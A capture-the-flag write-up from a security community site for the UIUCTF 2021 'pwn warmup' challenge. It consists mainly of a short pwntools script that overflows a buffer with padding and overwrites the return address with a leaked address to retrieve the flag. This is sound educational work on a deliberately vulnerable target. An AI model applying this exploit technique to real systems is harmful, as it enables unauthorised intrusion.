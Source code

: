 ```yaml
---
layout: load_md
title: The White Circle | Uiuctf 2021 | pwn warmup Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Uiuctf 2021
parent: uiuctf_2021
category: pwn
challenge: pwn warmup
tags: "pwn, twh"
date: 2021-08-12T00:00:00+00:00
last_modified_at: 2021-08-12T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Uiuctf 2021</h1>

## pwn warmup
> Solved by : thewhiteh4t


    #!/usr/bin/python3
    
    from pwn import *
    
    host = 'pwn-warmup.chal.uiuc.tf'
    port = 1337
    offset = 20
    addr = 0
    
    junk = b'A' * offset
    
    conn = remote(host, port)
    lines = conn.recvuntil('ad\n').decode().split('\n')
    addr = lines[2].split(' = ')[1].strip()
    addr = int(addr, 16)
    le_num = p64(addr)
    buffer = junk + le_num
    conn.sendline(buffer)
    flag = conn.recvuntil('}').decode()
    print(flag)
    


![](https://i.imgur.com/Usy3A7i.png)


